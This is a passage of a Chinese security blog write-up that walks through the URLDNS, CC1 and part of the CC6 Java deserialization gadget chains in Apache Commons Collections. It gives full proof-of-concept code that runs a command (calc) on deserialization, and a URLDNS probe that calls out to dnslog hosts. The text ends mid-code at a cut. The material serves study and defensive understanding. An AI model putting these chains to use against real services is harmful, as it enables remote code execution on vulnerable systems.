# CC、CB链整合篇-先知社区

> **来源**: https://xz.aliyun.com/news/18859  
> **文章ID**: 18859

---

闲来无事，重新整合了所有的CC、CB链的分析过程，感觉每看常新。

顺序是按照调试学习的顺序，而不是数字顺序。

# URLDNS

常用于探测反序列化漏洞是否存在的一条链,之前调过cc6,这条应该比较简单,自己随便调调就行.  
#URL  
直接来看hashCode方法

```
public synchronized int hashCode() {
        if (hashCode != -1)
            return hashCode;

        hashCode = handler.hashCode(this);
        return hashCode;
    }
```

可以看到通过`handler.hashCode(this);`这句将自身传入实质是一个对地址的访问过程.我们来看一个例子.

```
public static void main(String[] args) throws IOException, NoSuchFieldException, IllegalAccessException {
        URL url = new URL("http://f7wi9u.dnslog.cn");
        url.hashCode();
    }
```

DNSLOG成功接收到访问请求.  
而我们在cc6中调过,可以通过hashmap的hash方法来触发hashCode方法,那么我们可以直接写出poc.

```
package org.example;

import java.io.*;
import java.net.URL;
import java.util.Base64;
import java.util.HashMap;

public class Main {
    public static void main(String[] args) throws Exception {
        HashMap<Object, Object> hashMap = new HashMap<>();
        URL url = new URL("http://1272e09cd4.ipv6.1433.eu.org.");
        hashMap.put(url, null);
        ser(hashMap);
        deser();
    }
    public static void ser(Object obj) throws Exception {
        FileOutputStream fos = new FileOutputStream("data.ser");
        ObjectOutputStream os = new ObjectOutputStream(fos);
        os.writeObject(obj);
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        byte[] bytes = baos.toByteArray();
        System.out.println(Base64.getEncoder().encodeToString(bytes));
    }

    public static void deser() throws Exception{
        FileInputStream fis = new FileInputStream("data.ser");
        ObjectInputStream ois = new ObjectInputStream(fis);
        ois.readObject();
    }
}
```

打通倒是打通了,然而想起来一个问题,就是在HashMap的put方法的时候也会触发这个hashCode,那么就无法区分究竟是在序列化的时候触发的URLDNS还是在序列化时触发的还是反序列化时触发的.  
观察到`URL.hashCode`方法中存在这样的判定条件:

```
if (hashCode != -1)
            return hashCode;
```

那么我们只需要在put前将hashCode改成别的数,在序列化之前再改回来就行.  
得到最终的payload

```
package org.example;

import java.io.*;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.Base64;
import java.util.HashMap;

public class Main {
    public static void main(String[] args) throws Exception {
        HashMap<Object, Object> hashMap = new HashMap<>();
        URL url = new URL("http://a289b6c3.log.dnslog.sbs.");
        Field field = URL.class.getDeclaredField("hashCode");
        field.setAccessible(true);
        field.set(url, 1);

        hashMap.put(url, null);

        field.set(url, -1);

        ser(hashMap);
        deser();
    }
    public static void ser(Object obj) throws Exception {
        FileOutputStream fos = new FileOutputStream("ser.bin");
        ObjectOutputStream os = new ObjectOutputStream(fos);
        os.writeObject(obj);
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        byte[] bytes = baos.toByteArray();
        System.out.println(Base64.getEncoder().encodeToString(bytes));
    }

    public static void deser() throws Exception{
        FileInputStream fis = new FileInputStream("ser.bin");
        ObjectInputStream ois = new ObjectInputStream(fis);
        ois.readObject();
    }
}
```

也是成功打通了,总结得到`gadgetchain`如下

```
Gadget chain:
ObjectInputStream.readObject()
    HashMap.readObject()
        URL.hashCode()
```

# CC1

java反序列化cc1漏洞复现,环境commoncollections<=3.2.1,java版本<=java8u65.  
分析的时候从执行命令的部分开始,一点一点的倒退回反序列化接口.目的:在java反序列化的时候会利用构造函数来进行对象的构造,那么我们的目标就是只调用构造函数来执行命令.

## 源码剖析

#Transformer   
一个接口,定义了transform方法,所有实现了这个接口的子类都得去实现这个方法(万恶之源了属于是).

```
package org.apache.commons.collections;

public interface Transformer {
    Object transform(Object var1);
}
```

#InvokerTransformer   
该类的位置: `org.apache.commons.collections.functors.InvokerTransformer`,为了方便阅读,把没用到的方法都删了.

```
public class InvokerTransformer implements Transformer, Serializable {
    private final String iMethodName;
    private final Class[] iParamTypes;
    private final Object[] iArgs;
    
    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        this.iMethodName = methodName;
        this.iParamTypes = paramTypes;
        this.iArgs = args;
    }
    
    public Object transform(Object input) {
        if (input == null) {
            return null;
        } else {
            try {
                Class cls = input.getClass();
                Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
                return method.invoke(input, this.iArgs);
            } catch (NoSuchMethodException var4) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
            } catch (IllegalAccessException var5) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
            } catch (InvocationTargetException var6) {
                InvocationTargetException ex = var6;
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", ex);
            }
        }
    }
}
```

执行命令的方法为`transform`,使用前需要调用构造函数来进行赋值.  
**测试:**

```
import org.apache.commons.collections.functors.InvokerTransformer;

public class Main {
    public static void main(String[] args) throws Exception {
        Class[] paramTypes = {String.class};
        Object[] args1 = {"calc"};
        InvokerTransformer it = new InvokerTransformer("exec", paramTypes, args1);
        it.transform(Runtime.getRuntime());
    }
}
```

成功弹出计算器.  
实际上上面就相当于执行了下面的这条语句

```
Runtime.getRuntime().getClass().getMethod("exec", String.class).invoke(Runtime.getRuntime(), "calc");
```

那么如何才能做到不直接调用InvokerTransformer方法直接去执行命令呢?  
#ConstantTransformer  
简化后的代码如下

```
public class ConstantTransformer implements Transformer, Serializable {
    private final Object iConstant;
    
    public ConstantTransformer(Object constantToReturn) {
        this.iConstant = constantToReturn;
    }

    public Object transform(Object input) {
        return this.iConstant;
    }
}
```

逻辑很简单,构造函数接受对象,`transform`方法返回对象.然而这里就很有说法,由于多态的机制会去调用`Transformer`类的`transform`方法,这里是对`transform`的一个重写,可以去存储一个对象,需要的时候调用`transform`方法去返回存储的对象.  
#ChainedTransformer  
简化以后得代码如下

```
public class ChainedTransformer implements Transformer, Serializable {
    private final Transformer[] iTransformers;
    
    public ChainedTransformer(Transformer[] transformers) {
        this.iTransformers = transformers;
    }

    public Object transform(Object object) {
        for(int i = 0; i < this.iTransformers.length; ++i) {
            object = this.iTransformers[i].transform(object);
        }

        return object;
    }
```

构造函数传入了一个`Transformer[]`数组,然后在`transform`中以链式去调用每个`Transformer`对象的`transform`方法,其参数为手动传入的`object`.前者返回值会作为后者的参数被传入.  
**测试:**

```
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.ChainedTransformer;
public class Main {
    public static void main(String[] args) throws Exception {
        ConstantTransformer constanttransformer = new ConstantTransformer(Runtime.getRuntime());
        InvokerTransformer invokertransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
        Transformer[] transformers = {constanttransformer, invokertransformer};
        ChainedTransformer chainedtransformer =  new ChainedTransformer(transformers);
        chainedtransformer.transform(null);

    }
}
```

第一次调用`constanttransformer`的`transform`方法,返回了一个`Runtime`对象,传入`invokertransformer`的`transform`方法中成功的得到了一个初始化过的`InvokerTransformer`对象,最后调用其`transform`方法弹计算器.  
然而由于`Runtime`类没有实现`Serializable`接口接口,无法去进行反序列化.但是`Class`类实现了,因此我们尝试利用`Runtime.class`来实现.  
**测试:**

```
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.ChainedTransformer;
public class Main {
    public static void main(String[] args) throws Exception {
        ConstantTransformer ct = new ConstantTransformer(Runtime.class);
        //获取类对象
        //Runtime.class

        String methodName1 = "getMethod";
        Class[] paramTypes1 = {String.class, Class[].class};
        Object[] args1 = {"getRuntime", null};
        InvokerTransformer it1 = new InvokerTransformer(methodName1, paramTypes1, args1);
        //获取getRuntime方法
        //Runtime.class.getMethod("getRuntime", null)

        String methodName2 = "invoke";
        Class[] paramTypes2 = {Object.class, Object[].class};
        Object[] args2 = {null, null};
        InvokerTransformer it2 = new InvokerTransformer(methodName2, paramTypes2, args2);
        //getRuntime.invoke获取Runtime对象
        //it1.invoke(null, null)

        String methodName3 = "exec";
        Class[] paramTypes3 = {String.class};
        Object[] args3 = {"calc"};
        InvokerTransformer it3 = new InvokerTransformer(methodName3, paramTypes3, args3);
        //Runtime对象执行exec命令
        //it2.exec("calc")

        Transformer[] transformers = {ct, it1, it2, it3};
        new ChainedTransformer(transformers).transform(null);
    }
}
```

上面的代码体现了java反射中的层层利用与`ChainedTransformer`类的紧密配合,等同于如下代码

```
((Runtime)Runtime.getRuntime().getClass().getMethod("getRuntime", null).invoke(null, null)).exec("calc");
```

成功的执行命令,弹出计算器.  
然而这里还是调用了`ChainedTransformer`的`transform`方法,想个办法把他跳过去.  
#TransformedMap  
类的位置:`org.apache.commons.collections.map.TransformedMap`

```
public class TransformedMap extends AbstractInputCheckedMapDecorator implements Serializable {
    protected final Transformer keyTransformer;
    protected final Transformer valueTransformer;

    public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        return new TransformedMap(map, keyTransformer, valueTransformer);
    }

    protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        super(map);
        this.keyTransformer = keyTransformer;
        this.valueTransformer = valueTransformer;
    }

    protected Object checkSetValue(Object value) {
        return this.valueTransformer.transform(value);
    }
```

我们可以看到可以通过调用`checkSetValue`来调用一个`Transformer.transform`对象的`transform`方法.那么如何调用这个`checkSetValue`方法呢?  
#AbstractInputCheckedMapDecorator  
是TransformedMap的父类.

```
abstract class AbstractInputCheckedMapDecorator extends AbstractMapDecorator {
    protected AbstractInputCheckedMapDecorator() {
    }

    protected abstract Object checkSetValue(Object var1);

    static class MapEntry extends AbstractMapEntryDecorator {
        private final AbstractInputCheckedMapDecorator parent;

        protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {
            super(entry);
            this.parent = parent;
        }

        public Object setValue(Object value) {
            value = this.parent.checkSetValue(value);
            return this.entry.setValue(value);
        }
    }

    static class EntrySetIterator extends AbstractIteratorDecorator {
        private final AbstractInputCheckedMapDecorator parent;

        public Object next() {
            Map.Entry entry = (Map.Entry)this.iterator.next();
            return new MapEntry(entry, this.parent);
        }
    }

    static class EntrySet extends AbstractSetDecorator {
        private final AbstractInputCheckedMapDecorator parent;

        protected EntrySet(Set set, AbstractInputCheckedMapDecorator parent) {
            super(set);
            this.parent = parent;
        }

        public Iterator iterator() {
            return new EntrySetIterator(this.collection.iterator(), this.parent);
        }
    }
}
```

小喷一句,把子类直接写到父类里除了增添阅读障碍没有任何的好处.  
我们看到`AbstractInputCheckedMapDecorator`的子类`MapEntry`中的`setValue`方法调用了父类的`checksetValue`,也就是说可以调用到`TransformedMap`的`checksetValue`方法.那么如何调用这个`setValue`呢  
#AnnotationInvocationHandler  
类的位置:`sun.reflect.annotation.AnnotationInvocationHandler`

```
class AnnotationInvocationHandler implements InvocationHandler, Serializable {
    private final Class<? extends Annotation> type;  
    private final Map<String, Object> memberValues;  
    private transient volatile Method[] memberMethods = null;
    AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
        Class[] var3 = var1.getInterfaces();
        if (var1.isAnnotation() && var3.length == 1 && var3[0] == Annotation.class) {
            this.type = var1;
            this.memberValues = var2;
        } else {
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        }
    }

    private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var3 = var2.memberTypes();
        Iterator var4 = this.memberValues.entrySet().iterator();

        while(var4.hasNext()) {
            Map.Entry var5 = (Map.Entry)var4.next();
            String var6 = (String)var5.getKey();
            Class var7 = (Class)var3.get(var6);
            if (var7 != null) {
                Object var8 = var5.getValue();
                if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
                    var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
                }
            }
        }
    }
}
```

我们可以看到这个`readObject`类就是反序列化的入口点.其中存在`var5`调用了`setValue`方法.  
那么这个`var5`是咋来的呢?核心逻辑是调用了`var4`的`next`方法.而这个`var4`则是从`this.memberValues`中得到的.

```
Iterator var4 = this.memberValues.entrySet().iterator();
Map.Entry var5 = (Map.Entry)var4.next();
```

而这个`memberValues`在构造函数中被赋值

```
if (var1.isAnnotation() && var3.length == 1 && var3[0] == Annotation.class) {
            this.type = var1;
            this.memberValues = var2;
        } 
```

而这个`next`方法在`AbstractInputCheckedMapDecorator.EntrySetIterator`中有实现(重写).

```
static class EntrySetIterator extends AbstractIteratorDecorator {
        private final AbstractInputCheckedMapDecorator parent;

        public Object next() {
            Map.Entry entry = (Map.Entry)this.iterator.next();
            return new MapEntry(entry, this.parent);
        }
    }
```

会调用`AbstractInputCheckedMapDecorator.MapEntry`的构造方法来构造一个`Map.Entry`对象

```
protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {
            super(entry);
            this.parent = parent;
        }
```

## 归纳出链子

我们归纳整理得到利用链如下

```
Gadget chain:
ObjectInputStream.readObject()
    AnnotationInvocationHandler.readObject()
        AbstractInputCheckedMapDecorator.MapEntry.setValue()
            TransformedMap.checkSetValue()
                ChainedTransformer.transform()
                    ConstantTransformer.transform()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Class.getMethod()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Runtime.getRuntime()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Runtime.exec()
```

# 整理得到poc

完整的poc如下

```
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Map;

public class Main {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException {
        ConstantTransformer ct = new ConstantTransformer(Runtime.class);

        String methodName1 = "getMethod";
        Class[] paramTypes1 = {String.class, Class[].class};
        Object[] args1 = {"getRuntime", null};
        InvokerTransformer it1 = new InvokerTransformer(methodName1, paramTypes1, args1);

        String methodName2 = "invoke";
        Class[] paramTypes2 = {Object.class, Object[].class};
        Object[] args2 = {null, null};
        InvokerTransformer it2 = new InvokerTransformer(methodName2, paramTypes2, args2);

        String methodName3 = "exec";
        Class[] paramTypes3 = {String.class};
        Object[] args3 = {"calc"};
        InvokerTransformer it3 = new InvokerTransformer(methodName3, paramTypes3, args3);

        Transformer[] transformers = {ct, it1, it2, it3};
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        /*
        ChainedTransformer
        */

        HashMap<Object, Object> map = new HashMap<>();
        map.put("value", ""); //解释二
        Map decorated = TransformedMap.decorate(map, null, chainedTransformer);
        /*
        TransformedMap.decorate
        */

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annoConstructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        annoConstructor.setAccessible(true);
        Object poc = annoConstructor.newInstance(Target.class, decorated); //解释一
        /*
        AnnotationInvocationHandler
        */

        serial(poc);
        unserial();
    }

    public static void serial(Object obj) throws IOException {
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("./cc1.bin"));
        out.writeObject(obj);
    }

    public static void unserial() throws IOException, ClassNotFoundException {
        ObjectInputStream in = new ObjectInputStream(new FileInputStream("./cc1.bin"));
        in.readObject();
    }
}
```

需要解释的包括两处.  
**第一:** 为什么在使用反射生成`AnnotationInvokationHandler`对象的时候最后构造方法的第一个参数要传入`Target.class`.  
我们回过头再来看`AnnotationInvokationHandler`对象的构造函数

```
AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
        Class[] var3 = var1.getInterfaces();
        if (var1.isAnnotation() && var3.length == 1 && var3[0] == Annotation.class) {
            this.type = var1;
            this.memberValues = var2;
        } else {
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        }
    }
```

看这个if判断语句的逻辑,要求`var1`是一个注解的Class,同时要求这个注解的接口数为1,并且为`Annotation.class`.  
我们打个断点调试一下看看这个`Target.class`是否满足条件.  
  
发现恰好满足条件.  
**第二:** 为什么在构造`TransformedMap`的时候传入的键为`value`,值为空?`map.put("value", "");`  
我们翻回头来看看`AnnotationInvokationHandler`的`readObject`方法.

```
private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var3 = var2.memberTypes();
        Iterator var4 = this.memberValues.entrySet().iterator();

        while(var4.hasNext()) {
            Map.Entry var5 = (Map.Entry)var4.next();
            String var6 = (String)var5.getKey();
            Class var7 = (Class)var3.get(var6);
            if (var7 != null) {
                Object var8 = var5.getValue();
                if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
                    var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
                }
            }
        }

    }
```

看到执行`var5.setValue`的条件为`var7`不为空.追述一下`var7`是怎么来的.`Class var7 = (Class)var3.get(var6);`  
其中的`var3`由下面的代码生成

```
AnnotationType.getInstance(Target.class).memberTypes();
```

实际上返回的是一个`map`对象,键是`@Target`注解中元数据的名称,值为类型.所以`var7`就是`@Target`注解的属性中名为`var6`的值.也就是说要求`@Target`中有`var6`这个属性即可.  
那么看看`@Target`中有什么

```
public @interface Target {  
        ElementType[] value();  
}
```

只有`value`这一个属性.而`var6`的生成路线如下

```
this.memberValues.entrySet().iterator().next().getKey()
```

也就是说var6是我们传入的第二个参数(一个Map)中第一个键值对的键.  
所以我们在创建map的时候要放一个键为value的键值对`map.put("value", "");`.值是什么无所谓,因为根本没有用到这个值.

至此完成了java反序列化cc1的复现.

# CC6

复现环境:common-collections版本<=3.2.1,java版本随意.  
我们观察java高于8u71的版本会发现`sun.reflect.annotation.AnnotationInvocationHandler`类被进行了修改,其中的`readObject`不去调用`setvalue`方法,而是创建了一个`LinkedHashMap var7`去重新进行操作,使我们之前的利用链中断.

```
private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        ObjectInputStream.GetField var2 = var1.readFields();
        Class var3 = (Class)var2.get("type", (Object)null);
        Map var4 = (Map)var2.get("memberValues", (Object)null);
        AnnotationType var5 = null;

        try {
            var5 = AnnotationType.getInstance(var3);
        } catch (IllegalArgumentException var13) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var6 = var5.memberTypes();
        LinkedHashMap var7 = new LinkedHashMap();

        String var10;
        Object var11;
        for(Iterator var8 = var4.entrySet().iterator(); var8.hasNext(); var7.put(var10, var11)) {
            Map.Entry var9 = (Map.Entry)var8.next();
            var10 = (String)var9.getKey();
            var11 = null;
            Class var12 = (Class)var6.get(var10);
            if (var12 != null) {
                var11 = var9.getValue();
                if (!var12.isInstance(var11) && !(var11 instanceof ExceptionProxy)) {
                    var11 = (new AnnotationTypeMismatchExceptionProxy(objectToString(var11))).setMember((Method)var5.members().get(var10));
                }
            }
        }

        AnnotationInvocationHandler.UnsafeAccessor.setType(this, var3);
        AnnotationInvocationHandler.UnsafeAccessor.setMemberValues(this, var7);
    }
```

由于commoncollections版本没变,因此在`chainedTransformer`以及之前的链子不用改变,需要重新找个出口去自动调用`transform`方法.

## 源码剖析

#LazyMap

```
public class LazyMap extends AbstractMapDecorator implements Map, Serializable {
    protected final Transformer factory;

    public static Map decorate(Map map, Transformer factory) {
        return new LazyMap(map, factory);
    }

    public Object get(Object key) {
        if (!this.map.containsKey(key)) {
            Object value = this.factory.transform(key);
            this.map.put(key, value);
            return value;
        } else {
            return this.map.get(key);
        }
    }
}
```

可以看到在`get`方法中调用了`factory`的`transform`方法.而`decorate`方法可以返回一个`Map`对象.  
**测试:**

```
package org.example;

import java.io.*;

import com.sun.org.apache.bcel.internal.Const;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.util.HashMap;
import java.util.Map;

public class Main {
    public static void main(String[] args) throws Exception {
        ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.class);

        String MethodName1 = "getMethod";
        Class[] ParmaType1 = {String.class, Class[].class};
        Object[] Parma1 = {"getRuntime", null};
        InvokerTransformer it1 = new InvokerTransformer(MethodName1, ParmaType1, Parma1);

        String MethodName2 = "invoke";
        Class[] ParmaType2 = {Object.class, Object[].class};
        Object[] Parma2 = {null, null};
        InvokerTransformer it2 = new InvokerTransformer(MethodName2, ParmaType2, Parma2);

        String MethodName3 = "exec";
        Class[] ParmaType3 = {String.class};
        Object[] Parma3 = {"calc"};
        InvokerTransformer it3 = new InvokerTransformer(MethodName3, ParmaType3, Parma3);

        Transformer transformers[] = new Transformer[]{constantTransformer, it1, it2, it3};
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Map lazymap = LazyMap.decorate(new HashMap(), chainedTransformer);
        lazymap.get(null);
    }
}
```

也是成功的弹计算器了.接下来就是要找一个能够自动调用`get`方法的函数.  
#TiedMapEntry

```
public class TiedMapEntry implements Map.Entry, KeyValue, Serializable {
    private final Object key;

    public TiedMapEntry(Map map, Object key) {  
        this.map = map;  
        this.key = key;  
    }
    
    public Object getValue() {
        return this.map.get(this.key);
    }
    
    public int hashCode() {
        Object value = this.getValue();
        return (this.getKey() == null ? 0 : this.getKey().hashCode()) ^ (value == null ? 0 : value.hashCode());
    }
```

`getValue`方法能够调用`map`的`get`方法,然后`hashCode`方法能够调用`getValue`方法.  
**测试:**

```
package org.example;

import java.io.*;

import com.sun.org.apache.bcel.internal.Const;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import java.util.HashMap;
import java.util.Map;

public class Main {
    public static void main(String[] args) throws Exception {
        ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.class);

        String MethodName1 = "getMethod";
        Class[] ParmaType1 = {String.class, Class[].class};
        Object[] Parma1 = {"getRuntime", null};
        InvokerTransformer it1 = new InvokerTransformer(MethodName1, ParmaType1, Parma1);

        String MethodName2 = "invoke";
        Class[] ParmaType2 = {Object.class, Object[].class};
        Object[] Parma2 = {null, null};
        InvokerTransformer it2 = new InvokerTransformer(MethodName2, ParmaType2, Parma2);

        String MethodName3 = "exec";
        Class[] ParmaType3 = {String.class};
        Object[] Parma3 = {"calc"};
        InvokerTransformer it3 = new InvokerTransformer(MethodName3, ParmaType3, Parma3);

        Transformer transformers[] = new Transformer[]{constantTransformer, it1, it2, it3};
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Map lazymap = LazyMap.decorate(new HashMap(), chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap, null);
        tiedMapEntry.hashCode();
    }
}
```

接下来就是想办法调用`hashCode`方法.  
#HashMap  
只看其中几个会用到的函数

```
static final int hash(Object key) {  
    int h;  
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);  
}

public V put(K key, V value) {  
    return putVal(hash(key), key, value, false, true);  
}

private void readObject(ObjectInputStream s)  
    throws IOException, ClassNotFoundException {  
  
    ObjectInputStream.GetField fields = s.readFields();  
  
    // Read loadFactor (ignore threshold)  
    float lf = fields.get("loadFactor", 0.75f);  
    if (lf <= 0 || Float.isNaN(lf))  
        throw new InvalidObjectException("Illegal load factor: " + lf);  
  
    lf = Math.min(Math.max(0.25f, lf), 4.0f);  
    HashMap.UnsafeHolder.putLoadFactor(this, lf);  
  
    reinitialize();  
  
    s.readInt();                // Read and ignore number of buckets  
    int mappings = s.readInt(); // Read number of mappings (size)  
    if (mappings < 0) {  
        throw new InvalidObjectException("Illegal mappings count: " + mappings);  
    } else if (mappings == 0) {  
        // use defaults  
    } else if (mappings > 0) {  
        float fc = (float)mappings / lf + 1.0f;  
        int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?  
                   DEFAULT_INITIAL_CAPACITY :  
                   (fc >= MAXIMUM_CAPACITY) ?  
                   MAXIMUM_CAPACITY :  
                   tableSizeFor((int)fc));  
        float ft = (float)cap * lf;  
        threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?  
                     (int)ft : Integer.MAX_VALUE);  
  
        // Check Map.Entry[].class since it's the nearest public type to  
        // what we're actually creating.        SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);  
        @SuppressWarnings({"rawtypes","unchecked"})  
        Node<K,V>[] tab = (Node<K,V>[])new Node[cap];  
        table = tab;  
  
        // Read the keys and values, and put the mappings in the HashMap  
        for (int i = 0; i < mappings; i++) {  
            @SuppressWarnings("unchecked")  
                K key = (K) s.readObject();  
            @SuppressWarnings("unchecked")  
                V value = (V) s.readObject();  
            putVal(hash(key), key, value, false, false);  
        }  
    }  
}
```

我们看到`hash`中调用了`hashCode`方法.而`readObject`中调用了`hash`方法.因此比较明了,我们只需要创建一个键为恶意的`TiedMapEntry`对象,值随意的`HashMap`,然后去触发反序列化,即可成功的执行命令.  
然而这里又出现了个问题,在我们使用`put`方法去进行插值的时候也会触发`hash`方法,导致我们还没来得及将对象进行序列化就已经执行了命令.  
解决方法:使用反射去进行修改.

```
package org.example;

import java.io.*;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.ExceptionPredicate;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.keyvalue.TiedMapEntry;

import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;

public class Main {
    public static void main(String[] args) throws Exception {
        ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.class);

        String MethodName1 = "getMethod";
        Class[] ParmaType1 = {String.class, Class[].class};
        Object[] Parma1 = {"getRuntime", null};
        InvokerTransformer it1 = new InvokerTransformer(MethodName1, ParmaType1, Parma1);

        String MethodName2 = "invoke";
        Class[] ParmaType2 = {Object.class, Object[].class};
        Object[] Parma2 = {null, null};
        InvokerTransformer it2 = new InvokerTransformer(MethodName2, ParmaType2, Parma2);

        String MethodName3 = "exec";
        Class[] ParmaType3 = {String.class};
        Object[] Parma3 = {"calc"};
        InvokerTransformer it3 = new InvokerTransformer(MethodName3, ParmaType3, Parma3);

        Transformer transformers[] = new Transformer[]{constantTransformer, it1, it2, it3};
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Map lazymap = LazyMap.decorate(new HashMap(), new ConstantTransformer(null) );
//注意这里不能为new ChainedTransformer(null),因为参数类型不匹配
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap, null);

        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(tiedMapEntry, null);

        Class clazz = lazymap.getClass();
        Field field = clazz.getDeclaredField("factory");
        field.setAccessible(true);
        field.set(lazymap, chainedTransformer);
        
        serial(hashMap);
        unserial();

    }

    public static void serial(Object obj) throws Exception {
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("./cc1.bin"));
        out.writeObject(obj);
    }

    public static void unserial() throws Exception {
        ObjectInputStream in = new ObjectInputStream(new FileInputStream("./cc1.bin"));
        in.readObject();
    }
}
```

然而并没有像我们设想的那样去弹出计算器.  
研究发现问题出在`LazyMap`的`get`方法中

```
public Object get(Object key) {
        if (!this.map.containsKey(key)) {
